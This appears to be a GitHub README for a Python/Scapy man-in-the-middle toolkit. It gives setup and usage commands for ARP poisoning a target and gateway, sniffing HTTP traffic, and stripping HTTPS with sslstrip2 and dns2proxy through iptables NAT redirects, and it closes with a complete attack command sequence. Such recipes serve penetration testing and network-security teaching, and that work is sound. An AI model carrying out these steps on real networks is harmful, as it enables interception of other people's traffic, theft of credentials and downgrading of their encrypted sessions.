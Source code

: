 # Simple Mitmf Framework

**Man-In-The-Middle** Software Made Using Scapy with Python3

## Installing Required Packages:
```
- pip3 install scapy
- pip3 install scapy_http

OR 

- pip3 install -r requirements.txt
```
## IP Forward 

```
- echo 1 > /proc/sys/net/ipv4/ip_forward
```



# Arp_Poison.py

>- Performs **ARP Poisoning** by Sending ARP Packets.

## Kullanım :

```
- python3 arp_poison.py -t x.x.x.x -g x.x.x.x
```


# Listener.py

> - Captures and Prints All **HTTP** Packets After ARP Poisoning.

## Usage : 
```
- python3 listener.py -i wlan0
```

Instead of **Listener.py** You Can Use Any Network Listening Software. Ex: **Wireshark**

# Bypass HTTPS:

## Downloading Required Applications:

```
git clone https://github.com/byt3bl33d3r/sslstrip2
git clone https://github.com/singe/dns2proxy
```

## IP Table Configuration:

**For SSLStrip:**

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
**For DNS2Proxy:**
```
iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```

## Usage : 
```
- echo 1 > /proc/sys/net/ipv4/ip_forward

- python3 arp_poison.py -t x.x.x.x -g x.x.x.x

- python3 sslstrip.py

- python3 dns2proxy.py

- python3 listener.py -i wlan0
